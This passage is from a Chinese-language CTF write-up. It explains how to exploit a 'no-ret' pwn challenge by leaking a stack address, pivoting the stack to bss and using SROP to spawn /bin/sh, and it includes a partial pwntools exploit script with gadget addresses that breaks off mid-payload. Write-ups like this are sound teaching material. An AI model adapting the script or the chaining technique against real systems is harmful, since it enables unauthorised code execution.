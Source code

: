 ```python
io.interactive()
```

用一次栈溢出触发就可以了:)



## NORET | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918559.png)

其实是个菜单题啦,菜单的符号全都写在data段看的不是很清楚,其中存在sys\_read可以溢出,但这道题:没有ret!!!!!!!

所以这道题要写的不是rop链而是jop链:用jmp将代码段相连接

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918560.png)

在text段存在丰富的gadget,但问题是jmp相关代码都是jmp \[rgs],这也就要求我们要知道存放jop的地址(栈)

所以第一步是泄露栈地址:

我们根本没得选,只能用write,那就要将rsi设置为栈上的地址

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918561.png)

刚刚好存在这样的gadget,而且泄露完还能返回程序的正常流程,相当于0副作用,免费送了我们一次leak\_stack的机会

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918562.png)

溢出部分的代码段这个样子,其中对于rsi的设置靠前,我的想法是将栈先迁移到bss上,然后再jop(其实也可以不用迁移)

迁移后,我们可以先向bss上写入/bin/sh这样的字符串,然后开始考虑布置新的jop链

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918563.png)

似乎是一团乱麻,想找出一个execv("/bin/sh"0,0)的正确顺序实在不容易

我在这里观察了好久,最后不想看了,想到了srop,在srop里我可以轻松布置各个寄存器的值,不用写奇奇怪怪的jop链了,而且srop只需要我们设置rax=0xf,rip=syscall

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918564.png)



这就很好办了,我们只需要将这两个gadget连在一起就可以了,至于设置寄存器都是sigreturnframe的事情了

```python
from pwn import *
io=process('./pwn')
#io=remote("node1.tgctf.woooo.tech",30847)
context.arch='amd64'
def bug():
    gdb.attach(io)
def c(Id):
    io.sendlineafter(b'> ',str(Id).encode())
def s(payload):
    io.sendafter(b": ",payload)
bss=0x402800
pop_4_jmp=0x40100F 
push_3=0x40108A 
payload=b'\x00'*0x100+p64(push_3)
c(2)
s(payload)
io.recvuntil(b'Thank you for your feedback!\n')
stack=u64(io.recv(6).ljust(8,b'\x00'))
success("stack=>"+str(hex(stack)))
start=stack-0x100
c(2)
payload=p64(start+0x18-1)+p64(start+0x20)+p64(start+0x28)+p64(0x40101B)+p64(0)+p64(0x4010D5)+p64(bss-8)
```